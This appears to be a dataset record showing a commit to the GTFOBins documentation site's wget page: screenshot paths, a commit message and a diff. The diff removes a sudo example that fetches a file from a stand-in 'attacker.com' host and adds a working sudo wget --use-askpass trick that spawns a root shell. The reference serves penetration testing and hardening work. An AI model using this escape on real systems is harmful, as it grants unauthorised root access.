

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 900 px high, scrolled down 1247 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Changed sudo from file write to shell execution

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -37,9 +37,9 @@ functions:
         LFILE=file_to_save
         ./wget $URL -O $LFILE
   sudo:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
-        sudo wget $URL -O $LFILE
+    - code: |
+        TF=$(mktemp)
+        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
+        chmod +x $TF
+        sudo wget -v --use-askpass=$TF 0
 ---
```
